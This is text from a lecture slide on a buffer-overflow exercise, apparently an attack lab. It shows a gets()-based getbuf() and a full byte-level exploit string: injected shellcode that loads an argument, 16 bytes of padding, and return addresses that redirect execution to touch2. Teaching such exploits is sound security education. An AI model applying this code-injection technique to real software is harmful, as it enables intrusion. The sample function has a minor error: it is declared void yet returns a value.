

# Exploit String Example
Stack after call to gets()

test
stack frame

B
pad

data written
by gets()
getbuf
stack frame
exploit
code
B

void getbuf() {
  char buf[4];
  gets(buf);
  return 1;
}
Sets 0x59b997fa as function argument
Invokes function touch2
/* Byte code for shell code
   movq $0x59b997fa,%rdi; ret */
48 c7 c7 fa 97 b9 59 c3
/* Pad with 16 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* Address of shellcode */
78 dc 61 55 00 00 00 00
/* Address of touch2 */
0c 18 40 00 00 00 00 00